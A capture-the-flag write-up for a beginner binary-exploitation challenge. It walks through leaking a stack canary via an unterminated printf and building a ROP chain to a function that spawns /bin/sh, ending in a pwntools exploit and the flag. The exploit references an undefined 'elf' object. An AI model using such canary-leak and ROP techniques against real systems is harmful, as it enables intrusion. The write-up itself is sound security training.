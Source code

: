 ```yaml
---
linkTitle: Escape the Room
title: Beginner - Escape the Room
type: docs
---
```


* Author: P3g4su5    
* Difficulty: Easy
* Description : You have limited tries, try to maximize you knowledge with every try, if you feel hungry there are some cookies kept near the stack of papers
* Attachments : [escape_the_room.zip](https://github.com/Parth-Badgujar/BackdoorCTF-23-Pwn/raw/main/Escape%20The%20Room/public/escape-the-room.zip)  

## Walkthrough

* This one was a ROP challenge with `stack canaries` enebled, and `PIE` disabled. The goal was to first leak the canary and then perform ROP to `escape` function. 
* I also gave a slight hint about canary in the description if you read carefully 

* Here is the decompiled code by IDA 

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char buf[32]; // [rsp+0h] [rbp-50h] BYREF
  char s1[40]; // [rsp+20h] [rbp-30h] BYREF
  unsigned __int64 v7; // [rsp+48h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  v3 = time(0LL);
  srand(v3);
  rand_str(s1, 30LL);
  puts("Welcome to Escape the R00m !");
  puts("You have only two chances to escape the room ...");
  printf("Enter key : ");
  read(0, buf, 0x50uLL);
  if ( !strncmp(s1, buf, 0x1EuLL) )
    puts("That was a nice escape ... But there is more to it !");
  else
    printf("%s is not the key, try again !\n", buf);
  printf("Enter key : ");
  __isoc99_scanf("%s", buf);
  if ( !strncmp(s1, buf, 0x1EuLL) )
    puts("That was a nice escape ... But there is more to it !");
  else
    puts("Wrong, go away !");
  return 0;
}

int escape()
{
  puts("Sweet !");
  return system("/bin/sh");
}
```

* The program asks for a `key` and matches it with randomly generated key, we can predict the randomly generated key since it is using `srand(time(0))` but this is not the goal
* Given two chances, the goal is to leak the `canary` from first input and `overflow the return address` from the second input as both of them are using `scanf("%s", buf)` format specifier to read input.  

### Leaking Canary (first input) 

* `printf("%s", buf)` or `puts(buf)` both will print characters untill they encounter a `null byte`.
* The actual `canary` is also stored on the `stack` at the bottom, so if we give an input such that its length reaches upto the `canary` in the stack, along with overwriting null byte of the `canary`, it will print out input along with the `canary` in the `printf` call as there is no null byte between our input and canary.   
* You can calculate the offset where the input overwrites the canary and it turns out to be `0x48` 

### ROP (second input) 

* Now we had to perform a simple `ROP` at the same time placing `canary` at specific posision in the `stack` such that it properly matches the comparison operators at the end of stack and overwrite return address to address of `escape` function.
* Due to `stack allignment` issue we will have to add an extra `ret` instruction gadget before the address of `escape` function 

### Exploit 

Here is the complete exploit : 
```python
from pwn import * 

p = process('./chal')

#First input 
p.sendlineafter("key : ", cyclic(0x48))

canary = p.recvuntil('try again !').split(b' ')[0].lstrip(cyclic(0x48))

canary = u64(b'\00' + canary[1:-1])

log.critical(f"Canary : {hex(canary)}")


#Second Input
ret = p64(0x000000000040101a)

p.sendlineafter("key : ", cyclic(72) + p64(canary) + p64(0) + ret + p64(elf.sym['escape']))

p.interactive()
``` 
<br>
---

##### Flag : `flag{unl0ck_y0ur_1m4gin4ti0ns_esc4p3_th3_r00m_0f_l1m1t4t10n5}`



